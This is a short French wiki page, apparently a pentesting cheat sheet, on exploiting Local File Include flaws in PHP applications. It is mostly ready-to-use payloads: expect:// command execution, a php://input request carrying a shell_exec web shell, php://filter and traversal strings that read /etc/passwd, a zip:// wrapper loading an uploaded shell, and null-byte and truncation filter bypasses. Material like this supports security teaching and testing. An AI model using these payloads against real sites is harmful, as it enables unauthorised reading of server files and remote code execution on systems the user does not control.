 ```yaml
---
title: Local File Include
permalink: /Local_File_Include/
---
```


Une faille de type Local File Include (LFI) consiste à inclure un fichier local à partir d'une entrée utilisateur. Dans certains cas ceci permet d'accéder à des fichiers non situés dans le webroot voire d'executer du code.

PHP
---

### PHP Wrappers

Il y a plusieurs "Wrappers" en PHP qui peuvent être utilisés pour exploiter des LFI.

-   PHP expect wrapper (désactivé par défaut):

``` text
target.php?page=expect://ls
```

-   PHP input wrapper:

``` text
POST /target.php?page=php:/input&cmd=ls
[..]
Content-Length: 44

<?php echo shell_exec($_GET['cmd']);?>
```

-   PHP php://filter (permet d'inclure un fichier et l'encoder en base64. Ceci permet de lire du code PHP:

``` text
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

-   PHP php://filter sans base64:

``` text
vuln.php?page=php://filter/resource=/etc/passwd
```

-   PHP ZIP Wrapper LFI (à condition d'avoir uploadé un zip contenant le payload). Le zip sera décompressé dans shell.php:

``` text
vuln.php?page=zip://path/to/file.zip%23shell.php
```

### Divers

Il est possible d'inclure certains fichiers qui peuvent contenir des entrées utilisateurs si on veut executer du code (ex: User-Agent, etc.):

-   /proc/self/environ
-   Logs Apache
-   Emails (on peut essayer d'énumerer les utilisateurs locaux avec VRFY)

Technique du Null byte (ne fonctionne pas sur les versions récentes de PHP:

``` text
vuln.php?page=/etc/passwd%00
vuln.php?page=/etc/passwd%2500
```

L'injection de loooongues valeurs peut permettre de bypasser certains filtres si on a des truncate:

``` text
vuln.php?page=/etc/passwd.................................................................................
vuln.php?page=../../../../../../../../../../../../../../../../../../../../etc/passwd
vuln.php?page=/etc/passwd/../../../../../../../../../../../../../../../../../../../..
```

[Category:Web](/Category:Web "wikilink") [Category:Exploitation](/Category:Exploitation "wikilink")